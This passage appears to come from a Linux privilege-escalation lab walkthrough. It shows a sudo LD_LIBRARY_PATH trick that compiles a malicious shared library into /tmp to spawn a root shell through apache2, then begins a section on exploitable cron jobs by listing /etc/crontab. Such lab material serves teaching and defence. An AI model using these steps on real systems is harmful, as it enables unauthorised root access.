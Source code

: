 - A root shell should spawn. Exit out of the shell. Try renaming `/tmp/libcrypt.so.1` to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the `library_path.c` code could be changed to make it work.

    ```bash
    user@debian:~$ gcc -o /tmp/libapr-1.so.0 -shared -fPIC /home/user/tools/sudo/library_path.c
    user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
    apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
    apache2: symbol lookup error: /usr/lib/libaprutil-1.so.0: undefined symbol: apr_pool_cleanup_null
    ```

## Cron Jobs - File Permissions
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.

- View the contents of the system-wide crontab:

    ```bash
    user@debian:~$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    * * * * * root overwrite.sh
    * * * * * root /usr/local/bin/compress.sh
    ```
